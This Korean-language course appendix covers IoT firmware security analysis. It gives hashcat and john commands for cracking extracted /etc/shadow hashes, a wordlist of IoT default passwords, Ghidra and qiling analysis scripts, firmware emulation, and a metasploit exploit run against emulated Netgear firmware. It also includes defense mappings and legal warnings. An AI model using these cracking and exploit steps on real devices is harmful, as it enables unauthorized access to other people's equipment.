EXTRACTED=/tmp/extracted-binwalk/_firmware.bin.extracted/squashfs-root
cat $EXTRACTED/etc/shadow
# root:$6$rounds=5000$saltsalt$longhashhere:18000:0:99999:7:::
# admin:$1$abc$hash456:18000:0:99999:7:::

# 2. john / unshadow 형식
unshadow $EXTRACTED/etc/passwd $EXTRACTED/etc/shadow > /tmp/iot-cred.txt

# 3. 사전 (IoT 표준)
cat << 'EOF' > /tmp/iot-passwords.txt
admin
12345
1234
password
admin1234
default
guest
support
ubnt
root
toor
xc3511
123456
888888
EOF

# 4. john (CPU)
john /tmp/iot-cred.txt --wordlist=/tmp/iot-passwords.txt
# Loaded 2 password hashes with no different salts (sha512crypt, ...)
# admin            (admin)
# 1g 0:00:00:01 100% (ETA: 10:42:30)

# 결과 보기
john --show /tmp/iot-cred.txt
# admin:admin1234:1000:1000::/home/admin:/bin/sh
# root:???

# 5. hashcat (GPU — 더 빠름)
# 해시 단독 추출
awk -F: '{print $2}' /tmp/iot-cred.txt > /tmp/iot-hashes.txt

# md5crypt ($1$) — mode 500
hashcat -m 500 /tmp/iot-hashes.txt /tmp/iot-passwords.txt --status

# sha512crypt ($6$) — mode 1800
hashcat -m 1800 /tmp/iot-hashes.txt /tmp/iot-passwords.txt --status

# rockyou.txt + IoT 사전 결합
cat /tmp/iot-passwords.txt /usr/share/wordlists/rockyou.txt \
   | sort -u > /tmp/combined.txt
hashcat -m 1800 /tmp/iot-hashes.txt /tmp/combined.txt -O -w 3 --status

# 6. 결과 markdown 표
hashcat -m 1800 --show /tmp/iot-hashes.txt | tee /tmp/cracked.txt
```

#### 도구 5: Ghidra — 펌웨어 정적 분석 + 디컴파일 (s11-s13)

본문 5.1-5.3 의 운영 도구. NSA 의 OSS — 모든 IoT 흔한 아키텍처 (ARM /
MIPS / x86 / RISC-V) 디스어셈블 + 디컴파일.

```bash
# 1. Ghidra GUI
ghidra
# 새 프로젝트 → Import File → /tmp/extracted/usr/bin/httpd
# Analyze (모든 옵션 default 권장)

# Ghidra 흐름:
#   a. Symbol Tree → Functions → main 으로 이동
#   b. CodeBrowser → Decompile (창 우측)
#   c. C-like 디컴파일 결과 분석
#   d. References → 함수 호출 그래프
#   e. Defined Strings → password / api_key / 하드코드 검색

# 2. Ghidra Headless (자동화 — CI 통합)
$GHIDRA_HOME/support/analyzeHeadless \
   /tmp/ghidra-project IoT_FW \
   -import /tmp/extracted/usr/bin/httpd \
   -postScript FindCrypto.java \
   -postScript FindStrings.py \
   -log /tmp/ghidra.log

# 3. Ghidra Python script — 취약 함수 자동 탐색
cat << 'PY' > /tmp/find_dangerous.py
# Ghidra Python script — 위험 함수 호출 탐색
dangerous = ['strcpy', 'strcat', 'sprintf', 'gets', 'scanf',
             'system', 'popen', 'exec', 'memcpy', 'strncpy']

for func_name in dangerous:
    funcs = getGlobalFunctions(func_name)
    if funcs:
        for func in funcs:
            refs = getReferencesTo(func.getEntryPoint())
            ref_list = list(refs)
            if ref_list:
                print(f"[!] {func_name}: {len(ref_list)} references")
                for ref in ref_list[:3]:
                    caller = getFunctionContaining(ref.getFromAddress())
                    if caller:
                        print(f"      Called by: {caller.getName()} @ {ref.getFromAddress()}")
PY

# headless 실행
$GHIDRA_HOME/support/analyzeHeadless \
   /tmp/ghidra-project IoT_FW \
   -postScript /tmp/find_dangerous.py

# 4. radare2 + r2dec (Ghidra 대안 — CLI)
r2 -A /tmp/extracted/usr/bin/httpd
[0x00010000]> aaa
[0x00010000]> afl | head             # 함수 목록
[0x00010000]> s sym.main             # main 으로 이동
[0x00010000]> pdf                    # 디스어셈블
[0x00010000]> pdg                    # 디컴파일 (r2dec/Ghidra)

# 5. cutter (radare2 GUI)
cutter /tmp/extracted/usr/bin/httpd

# 6. binary diff (Ghidra + diaphora)
# 두 펌웨어 (v1.0 / v2.0) 비교 — 패치된 취약점 식별
$GHIDRA_HOME/support/analyzeHeadless project1 fw_v1 \
   -import fw_v1.elf -postScript /tmp/diaphora/diaphora_ghidra.py \
   -scriptPath /tmp/diaphora -- /tmp/v1.sqlite

$GHIDRA_HOME/support/analyzeHeadless project1 fw_v2 \
   -import fw_v2.elf -postScript /tmp/diaphora/diaphora_ghidra.py \
   -scriptPath /tmp/diaphora -- /tmp/v2.sqlite

python3 /tmp/diaphora/diaphora.py /tmp/v1.sqlite /tmp/v2.sqlite \
   -o /tmp/diff.sqlite
```

#### 도구 6: qiling + firmadyne — 동적 emul (s14)

본문에 명시 안됐지만 *펌웨어 동적 분석* 핵심. 펌웨어를 *실 device 없이*
부팅 → web UI 응답 → exploit 시도.

```bash
# 1. firmadyne (라우터/IoT 자동 emul)
cd /opt/firmadyne

# 펌웨어 → tarball 변환
sudo ./scripts/extractor.py -b NetgearR7000 -sql 127.0.0.1 -np \
   -nk /tmp/firmware.bin /tmp/firmadyne-images/

# 자동 부팅
sudo ./scripts/inferNetwork.sh 1
sudo ./scripts/run.sh 1

# 부팅된 가상 펌웨어 IP 확인
firefox http://192.168.0.100/   # 가상 web UI

# 2. FAT (firmadyne 통합)
cd /opt/firmware-analysis-toolkit
sudo ./fat.py /tmp/firmware.bin --qemu=2.5.0
# 자동 단계: extract → boot → expose web → 사용자에게 IP 제공

# 3. qiling (binary 단위 — 더 정밀)
python3 << 'PY'
from qiling import Qiling

# /usr/bin/httpd 만 emul (전체 부팅 불필요)
ql = Qiling([
    "/tmp/extracted/squashfs-root/usr/bin/httpd",
    "-c", "/tmp/extracted/squashfs-root/etc/httpd.conf"
], "/tmp/extracted/squashfs-root", verbose=2)

# hook 설정 — 특정 함수 가로채기
def my_hook(ql):
    print(f"[!] strcpy called at {hex(ql.reg.pc)}")
    print(f"    arg0={ql.reg.r0:#x}  arg1={ql.reg.r1:#x}")

ql.set_api('strcpy', my_hook)

# 실행
ql.run()
PY

# 4. FirmAE (자동 emul + auto-network + auto-exploit)
cd /opt/firmae && sudo ./run.sh -d /tmp/extracted/firmware/ \
   -i /tmp/firmware.bin
# Web UI: http://localhost:5000
# Status: Running   Network: 192.168.0.100/24   Web: open

# 5. metasploit 으로 emul 된 펌웨어 공격
msfconsole
msf6> use exploit/linux/http/netgear_r7000_cgi_bypass
msf6 exploit(...)> set RHOSTS 192.168.0.100
msf6 exploit(...)> exploit
```

#### 도구 7: FACT-core — 펌웨어 비교 + 분석 web UI

펌웨어 두 버전 비교 (v1.0 vs v2.0) 시각화 + 패치된 함수 식별.

```bash
# 1. FACT-core 시작
cd /tmp/fact && ./start_all_installed_fact_components

# Web UI: http://localhost:5000

# 2. 펌웨어 업로드 (Web UI)
# - Upload → /tmp/fw_v1.bin (vendor=ACME, version=1.0)
# - Upload → /tmp/fw_v2.bin (vendor=ACME, version=2.0)
# - Compare → 두 펌웨어 선택

# 3. 자동 비교 결과
# - Files added (추가된 파일)
# - Files removed (제거된 파일)
# - Files changed (sha256 다름)
# - Common vulnerabilities (CVE 매칭)
# - Cryptographic material (RSA / ECC key 비교)

# 4. CLI 모드 (자동화)
fact_cli upload /tmp/fw_v1.bin
fact_cli upload /tmp/fw_v2.bin
fact_cli compare <fw1_uid> <fw2_uid>
```

### 펌웨어 분석 통합 흐름 (실 명령 시퀀스)

```bash
#!/bin/bash
# fw-analyze-flow.sh — 펌웨어 1개 → 통합 분석 30분
set -e
LOG=/tmp/fw-$(date +%Y%m%d-%H%M%S).log
FW=/tmp/firmware.bin
WORK=/tmp/fw-work-$(date +%Y%m%d)
mkdir -p $WORK

# 1. 메타 + 엔트로피
echo "===== [1] Metadata =====" | tee -a $LOG
file $FW | tee -a $LOG
sha256sum $FW | tee -a $LOG
binwalk -E $FW -F $WORK/entropy.png

# 2. 추출 (binwalk + unblob 비교)
echo "===== [2] Extract =====" | tee -a $LOG
binwalk -e $FW -C $WORK/binwalk-out 2>&1 | tail -10 | tee -a $LOG
unblob $FW --output-dir $WORK/unblob-out 2>&1 | tail -10 | tee -a $LOG

ROOTFS=$(find $WORK/binwalk-out -type d -name "squashfs-root" | head -1)
echo "Rootfs: $ROOTFS" | tee -a $LOG

# 3. 민감 정보 (firmwalker + trufflehog)
echo "===== [3] Sensitive info =====" | tee -a $LOG
cd /tmp/firmwalker && ./firmwalker.sh $ROOTFS -o $WORK/firmwalker.txt
trufflehog filesystem $ROOTFS --json > $WORK/trufflehog.json 2>/dev/null
echo "Firmwalker findings: $(wc -l < $WORK/firmwalker.txt)" | tee -a $LOG
echo "Trufflehog secrets: $(jq '. | length' $WORK/trufflehog.json)" | tee -a $LOG

# 4. shadow 해시 크래킹
echo "===== [4] Crack /etc/shadow =====" | tee -a $LOG
if [ -f $ROOTFS/etc/shadow ]; then
    awk -F: '{print $2}' $ROOTFS/etc/shadow > $WORK/hashes.txt
    hashcat -m 1800 $WORK/hashes.txt /tmp/iot-passwords.txt \
       --quiet --potfile-disable -o $WORK/cracked.txt 2>&1 | tail -3 | tee -a $LOG
    cat $WORK/cracked.txt | tee -a $LOG
fi

# 5. EMBA full audit
echo "===== [5] EMBA audit =====" | tee -a $LOG
sudo emba -l $WORK/emba-log -f $FW -W -E -t -p basic 2>&1 | tail -10 | tee -a $LOG

# 6. CVE 매칭
echo "===== [6] CVE =====" | tee -a $LOG
grep -h "CVE-" $WORK/emba-log/csv-logs/*.csv 2>/dev/null \
   | awk -F\| '{print $2}' | sort -u > $WORK/cves.txt
wc -l $WORK/cves.txt | tee -a $LOG

# 7. 동적 emul 시도 (FAT)
echo "===== [7] FAT emul =====" | tee -a $LOG
sudo /opt/firmware-analysis-toolkit/fat.py $FW \
   --qemu=2.5.0 --port=8080 2>&1 | tail -10 | tee -a $LOG

# 8. 보고서
echo "===== [8] Report =====" | tee -a $LOG
cat << REP > $WORK/REPORT.md
# 펌웨어 분석 보고서

| 항목 | 값 |
|------|----|
| 파일 | $FW |
| 크기 | $(du -h $FW | awk '{print $1}') |
| sha256 | $(sha256sum $FW | awk '{print $1}') |
| 추출 파일 | $(find $WORK/binwalk-out -type f | wc -l) |
| firmwalker 발견 | $(wc -l < $WORK/firmwalker.txt) |
| trufflehog secret | $(jq '. | length' $WORK/trufflehog.json) |
| shadow 해시 (crack) | $(wc -l < $WORK/cracked.txt 2>/dev/null) |
| CVE | $(wc -l < $WORK/cves.txt) |

상세: $WORK/emba-log/html-report/index.html
REP

cat $WORK/REPORT.md | tee -a $LOG
```

### 펌웨어 attack → defense 매핑

| 공격 | 1차 도구 | 방어 |
|------|----------|------|
| 펌웨어 추출 (Flash) | flashrom + CH341A | Flash encryption (ESP32 / STM32 RDP2) |
| 파일시스템 추출 | binwalk / unblob | (추출 불가능 — encrypted FS) |
| /etc/shadow crack | hashcat -m 1800 | $6$ + 강력 비번 + Fail2ban |
| 하드코딩 cred | firmwalker / EMBA | secure element (ATECC608A) |
| 하드코딩 key | EMBA crypto | TPM 2.0 / HSM |
| 펌웨어 변조 | unsquashfs + mksquashfs | Verified Boot (TF-A / U-Boot) |
| backdoor 주입 | firmware-mod-kit | TUF / Uptane signed update |
| OTA hijack | mitmproxy | TLS + cert pin + signed image |
| binary 디컴파일 | Ghidra / radare2 | obfuscation + secure enclave |
| 동적 emul | qiling / FirmAE | anti-debug + chip-specific |
| CVE 발견 | EMBA / nuclei | 정기 update + 자동 patch |

### 학생 자가 점검 체크리스트

- [ ] 본문 가상 펌웨어 → binwalk -e 추출 + unblob 추출 결과 비교
- [ ] firmwalker 로 추출된 파일시스템에서 password / API key 5+ 발견
- [ ] trufflehog 로 검증된 secret 1+ 발견 (verified=true)
- [ ] hashcat -m 1800 으로 /etc/shadow 비밀번호 1개 크래킹 1회
- [ ] EMBA full audit 1회 + HTML report 검토 + CVE 1+ 식별
- [ ] FAT 또는 firmadyne 으로 펌웨어 *부팅* 1회 (web UI 접근)
- [ ] qiling 으로 단일 binary emul + hook 설정 1회
- [ ] Ghidra 로 펌웨어 ELF 분석 + main 함수 디컴파일 1회
- [ ] Ghidra script (취약 함수 탐색) 1회
- [ ] FACT-core 또는 diaphora 로 두 펌웨어 버전 비교 1회
- [ ] 본 부록 모든 명령에 대해 "외부 펌웨어 적용 시 위반 법조항" 답변 가능

### 운영 환경 적용 시 주의

1. **자기 펌웨어 한정** — 본 부록 모든 도구는 *자기 디바이스* 또는 *제조사
   공개 펌웨어* 한정. 외부 회사 펌웨어 무단 분석 시 영업비밀보호법 + 저작권법
   위반 가능.
2. **Flash encryption 의무** — 운영 IoT 는 Flash encryption (ESP32 /
   STM32 RDP2 / NXP TrustZone) 필수. 평문 펌웨어 출하 = 사고.
3. **secure element** — ATECC608A / TPM 2.0 같은 secure element 로 cred /
   key 보관. EEPROM / Flash 평문 보관 금지.
4. **Verified Boot** — U-Boot Verified Boot / TF-A / OP-TEE 표준. 모든
   bootloader → kernel → app 단계 서명 검증.
5. **TUF / Uptane** — OTA update 의 표준 (자동차 표준 포함). 단순 HTTPS
   download 위험 — TUF 의 metadata 서명 + role separation.
6. **EMBA CI 통합** — 펌웨어 release 마다 EMBA 자동 audit. critical 발견
   시 release 차단 (gitlab-ci / github actions).
7. **chain of custody** — 외부 회수 펌웨어 분석 시 sha256 + 시각 + 책임자
   기록 (week 11 부록 AFF4).

> 본 부록은 *학습 시연용 OSS 시퀀스* 이다. 모든 펌웨어 분석은 *자기 자산*
> 또는 *제조사 공개 / 동의된* 펌웨어 한정. 외부 회사 펌웨어 무단 분석은
> 저작권법 + 영업비밀보호법 + 정통망법 §48 위반 가능 — 형사 처벌 대상.

---
